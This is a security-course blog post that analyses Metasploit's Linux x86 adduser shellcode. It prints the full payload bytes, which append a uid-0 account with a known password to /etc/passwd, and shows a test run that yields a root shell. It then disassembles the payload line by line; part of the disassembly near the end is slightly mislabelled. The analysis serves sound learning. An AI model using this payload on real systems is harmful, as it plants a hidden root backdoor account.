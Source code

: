 ```yaml
---
title:  "[SLAE 5] Metasploit Shellcode Analysis"
---
```


![Logo](/assets/images/tux-root.png)

## Metasploit Linux adduser shellcode analysis
This post is part of the 5th assignment of the SLAE course and will analyse the Metasploit _`linux/x86/adduser shellcode`_. First let's generate the shellcode: 
```bash
# msfpayload linux/x86/adduser USER=jsmith PASS=ok  C
```

This will generate a payload that will create a new _`root`_ user, with uid and gid equal to 0. 
```c
/*
 * linux/x86/adduser - 93 bytes
 * http://www.metasploit.com
 * VERBOSE=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, USER=jsmith, PASS=ok, SHELL=/bin/sh
 */
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73"
"\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d"
"\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e"
"\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01"
"\x58\xcd\x80";
```

To test it, I've integrated the shellcode into a C skeleton file and run against a Linux box: 
```bash
# cat /etc/passwd | grep jsmith
# ./shellcode
Shellcode Length:  40 bytes
# cat /etc/passwd | grep jsmith
jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh
# su jsmith
# id
uid=0(root) gid=0(root) groups=0(root)
```

As we can see, the new root user was successfully created. Next I continued to disassemble it: 
```bash
$ echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" |ndisasm -b 32 -
```
First the shellcode restores the privileges, in case the running process would have dropped them: 
```c
00000000  31C9              xor ecx,ecx             ; Effective user id - 0
00000002  89CB              mov ebx,ecx             ; Real user id - 0
00000004  6A46              push byte +0x46         ; sys_setreuid16 syscall number
00000006  58                pop eax                 ; Sets real and effective user id
00000007  CD80              int 0x80                ; Fire the interrupt
```

Next, it will open the _`/etc/passwd`_ file. The flags for opening the file will be set to *`0x00000401: O_WRONLY|O_APPEND`*. 

*__Note1__*: the mode for opening the file, which should have been in `EDX` register, is not specified because it is ignored for _`O_CREAT`_ flag not specified:
```c
00000009  6A05              push byte +0x5
0000000B  58                pop eax                 ; Prepare eax for sys_open syscall
0000000C  31C9              xor ecx,ecx             ; Set ecx to 0 
0000000E  51                push ecx                ; Push 0 to act as a null terminator
0000000F  6873737764        push dword 0x64777373   ; 'dwss'
00000014  682F2F7061        push dword 0x61702f2f   ; 'ap//'
00000019  682F657463        push dword 0x6374652f   ; 'cte/'
0000001E  89E3              mov ebx,esp             ; Filename: '/etc//passwd'
00000020  41                inc ecx  
```

*__Note2__*: the _`open`_ syscall and the parameters can also be easily viewed using strace program: 
```bash
# strace ./shellcode
[..]
open("/etc//passwd", O_WRONLY|O_APPEND) = 3 
```

The next part will write the _`jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n`_ string to it (username and encrypted password): 
```c
00000025  93                xchg eax,ebx
00000026  E824000000        call dword 0x4f
; String starts  here -->
; jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n
0000002B  6A73              push byte +0x73
0000002D  6D                insd
0000002E  6974683A417A2E54  imul esi,[eax+ebp*2+0x3a],dword 0x542e7a41
00000036  4F                dec edi
00000037  53                push ebx
00000038  7267              jc 0xa1
0000003A  724D              jc 0x89
0000003C  36726F            ss jc 0xae
0000003F  3A30              cmp dh,[eax]
00000041  3A30              cmp dh,[eax]
00000043  3A3A              cmp bh,[edx]
00000045  2F                das
00000046  3A2F              cmp ch,[edi]
00000048  62696E            bound ebp,[ecx+0x6e]
0000004B  2F                das
0000004C  7368              jnc 0xb6
0000004E  0A. |--> String ends here
```

We then have to disassemble the instructions starting after the end of string (easily done in gdb): 
```c
00000051  51                push ecx
00000052  FC                cld
00000053  6A04              push byte +0x4
00000055  58                pop eax         ; sys_write syscall
00000056  CD80              int 0x80
; write(3, "jsmith:Az.TOSrgrM6ro:0:0::/:/bin"..., 36) = 36
```

Finally the shellcode calls the exit function to cleanly finish execution: 
```c
00000058  6A01              push byte +0x1
0000005A  58                pop eax         ; sys_exit syscall
0000005B  CD80              int 0x80
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
